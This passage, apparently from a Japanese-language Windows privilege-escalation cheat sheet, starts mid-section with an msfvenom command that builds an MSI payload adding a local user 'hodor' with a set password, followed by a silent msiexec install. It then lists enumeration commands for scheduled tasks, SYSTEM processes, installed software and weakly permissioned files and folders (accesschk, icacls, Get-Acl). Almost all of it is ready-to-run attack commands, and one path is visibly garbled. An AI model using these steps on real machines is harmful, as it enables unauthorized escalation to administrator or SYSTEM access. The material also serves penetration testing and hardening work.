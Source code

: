 ```bash
msfvenom -p windows/adduser USER=hodor PASS=Qwerty123! -f msi -o hodor.msi
```

msiを実行します。

```cmd
msiexec /quiet /qn /i C:\hodor.msi
```

#### スケジュールタスク

```cmd
#スケジュールされたタスクを一覧表示
schtasks /query /fo LIST /v
#実行中のプロセスとサービスを一覧表示
Tasklist /SVC 
#"システム "プロセスをフィルタリングする
tasklist /v /fi "username eq system" 
```

#### インストールされているアプリケーション

```bash
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

アプリケーションの権限を確認する

```cmd
accesschk.exe /accepteula 

# ドライブごとに弱いフォルダのパーミッションをすべて検索します.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\

# ドライブごとの弱いファイルパーミッションをすべて検索します.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
accesschk.exe -uwdqs "Everyone" c:\*.*


icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"


Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```
